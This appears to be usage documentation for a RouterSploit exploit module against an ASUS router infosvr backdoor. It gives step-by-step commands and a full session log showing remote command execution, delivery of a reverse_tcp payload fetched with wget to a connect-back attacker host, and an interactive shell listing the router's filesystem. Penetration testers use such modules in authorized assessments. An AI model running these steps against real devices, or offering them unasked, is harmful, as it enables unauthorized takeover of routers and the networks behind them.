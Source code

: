 ## Description

Module exploits remote command execution in multiple ASUS devices. If the target is vulnerable, command loop is invoked that allows executing commands on operating system level.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/asus/infosvr_backdoor_rce`
  3. Do: `set target[TargetIP]
  4. Do: `run`
  5. If router is vulnerable, it should be possible to execute commands on operating system level.
  6. Do: `set payload reverse_tcp`
  7. Do: `set lhost [AttackerIP]`
  8. Do: `run`
  9. Payload is sent to device and executed providing attacker with the command shell.


## Scenarios

```
rsf > use exploits/routers/asus/infosvr_backdoor_rce
rsf (Asus Infosvr Backdoor RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Asus Infosvr Backdoor RCE) > run
[*] Running module...
[+] Target is vulnerable
[*] Invoking command loop...
[*] Please note that only first 256 characters of the output will be displayed or use reverse_tcp

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                  Description
   -------         ----                  -----------
   bind_tcp        ARMLE Bind TCP        Creates interactive tcp bind shell for ARMLE architecture.
   reverse_tcp     ARMLE Reverse TCP     Creates interactive tcp reverse shell for ARMLE architecture.

cmd > set payload reverse_tcp
cmd (ARMLE Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder


cmd (ARMLE Reverse TCP) > set lhost 192.168.1.115
lhost => 192.168.1.115
cmd (ARMLE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:35220
[+] Enjoy your shell
ls -la
ls -la
drwxr-xr-x   18 admin    root           325 Mar 15  2017 .
drwxr-xr-x   18 admin    root           325 Mar 15  2017 ..
drwxr-xr-x    2 admin    root             3 Mar 15  2017 asus_jffs
drwxr-xr-x    2 admin    root           706 Mar 15  2017 bin
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs1
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs2
drwxr-xr-x    5 admin    root          1540 Sep  4 23:04 dev
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 etc -> tmp/etc
lrwxrwxrwx    1 admin    root             8 Mar 15  2017 home -> tmp/home
drwxr-xr-x    5 admin    root             0 Sep  4 23:25 jffs
drwxr-xr-x    3 admin    root           402 Mar 15  2017 lib
lrwxrwxrwx    1 admin    root             9 Mar 15  2017 media -> tmp/media
drwxr-xr-x    2 admin    root             3 Mar 15  2017 mmc
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 mnt -> tmp/mnt
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 opt -> tmp/opt
dr-xr-xr-x  101 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    7 admin    root           766 Mar 15  2017 rom
lrwxrwxrwx    1 admin    root            13 Mar 15  2017 root -> tmp/home/root
drwxr-xr-x    2 admin    root          2428 Mar 15  2017 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
drwxr-xr-x    2 admin    root             3 Mar 15  2017 sysroot
drwxrwxrwx   13 admin    root           860 Sep  4 23:33 tmp
drwxr-xr-x    8 admin    root           139 Mar 15  2017 usr
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 var -> tmp/var
drwxr-xr-x   14 admin    root          6036 Mar 15  2017 www
```
